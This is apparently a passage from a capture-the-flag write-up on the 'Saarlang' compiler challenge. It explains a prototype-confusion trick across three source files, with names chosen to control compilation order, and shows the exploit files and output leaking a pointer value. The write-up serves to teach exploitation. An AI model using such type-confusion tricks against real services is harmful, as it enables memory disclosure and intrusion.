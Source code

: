 Observe the `stdlib.sl` definition once again:

```
eija sahmol_ln(x: int) gebbtserick int: {}
```

The function is defined with an empty body.
This works because, when a file is imported, all the symbols it declares are added to the global namespace, but they are not actually defined, and no code is generated for them.
At linking phase, the symbol will be linked to the function exported by the runtime.
When we send both files to the server, however, code is generated for each file.
The empty-body definition of `sahmol_ln` will produce a symbol that overrides the runtime export, turning it into a no-op.
Therefore, we cannot use this trick to confuse the prototype of existing runtime functions.

However, we can confuse prototypes of functions defined by ourselves, as long as split them in three files (definition, confused declaration, and usage) and get the compilation order just right:

```
$ cat z.sl
eija foo(x: int) gebbtserick int: {
    serick x;
}

$ cat import.sl
eija foo(x: lischd int) gebbtserick int: {}

$ cat entry.sl
holmol "import.sl";
holmol "stdlib.sl";

eija main() gebbtserick int: {
    var a: lischd int = neie lischd int(1);
    var b: int = mach foo(a);
    mach sahmol_ln(b);
}

$ ./exploit
CODE SIGNATURES: {"entry.sl":"0d10fd14eb2568d6557a8132af009704a507610836c6f7ca081f75d5b20b8543","import.sl":"b0c61d26bf4541d2ef3c5812e5c3ac331c787ef1894e4eac083781bb7c7752b3","z.sl":"7f5c72fee8fe6324b9a6b34daf8bc0e3945456e19fc643605e51655fde01f6aa"}
--- Saarlang execution starts ---
139910170645088
Result: 0
VISITED PATH: {"path":[{"x":720,"y":450}],"treasures":[]}
```

In `z.sl`, we define an identity function `foo`: it accepts an integer and returns it unchanged.
In `import.sl`, we define an empty-body `foo`, but this time it accepts an array, and returns an integer.
Finally, in `entry.sl`, we call `foo` on an array and print the returned integer.
The `exploit` script just makes the usual POST request for visit.

What's happening here?
We created a situation where `entry.sl` uses the prototype from `import.sl`, which accepts an array, but the implementation from `z.sl` will be chosen at link time.
This depends on the order in which files are compiled.
The filenames are not random: they've been chosen so that, once the request JSON is decoded to C++ maps (where the iteration order depends on key hashes), the order will be correct.
